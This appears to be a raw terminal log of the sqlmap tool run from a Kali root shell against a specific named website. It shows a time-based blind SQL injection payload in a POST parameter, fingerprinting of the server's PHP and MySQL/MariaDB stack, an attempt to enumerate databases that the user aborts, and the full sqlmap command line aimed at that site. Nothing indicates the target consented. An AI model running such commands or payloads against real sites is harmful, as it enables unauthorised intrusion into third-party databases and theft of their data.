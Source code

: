 [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 16:17:41

[16:17:41] [INFO] loading tamper module 'between'
[16:17:41] [INFO] resuming back-end DBMS 'mysql' 
[16:17:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: limit (POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: limit=13 PROCEDURE ANALYSE(EXTRACTVALUE(6233,CONCAT(0x5c,(BENCHMARK(100000000,MD5(0x4a735968))))),1)&start=0&condition=ORDER BY `date_of_post` DESC LIMIT
---
[16:17:41] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[16:17:41] [INFO] the back-end DBMS is MySQL
web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[16:17:41] [INFO] fetching database names
[16:17:41] [INFO] fetching number of databases
[16:17:41] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[16:17:49] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[16:17:50] [ERROR] unable to retrieve the number of databases
[16:17:50] [INFO] falling back to current database
[16:17:50] [INFO] fetching current database
[16:17:50] [INFO] retrieved: 

[16:19:58] [ERROR] invalid character detected. retrying..
^V^C

[16:21:44] [ERROR] user aborted

[*] shutting down at 16:21:44

root@kali:~# sqlmap --url "https://www.qaisare.com/includes/slider.php" --data "limit=13&start=0&condition=ORDER+BY+%60date_of_post%60+DESC+LIMIT" 
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.2.10#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
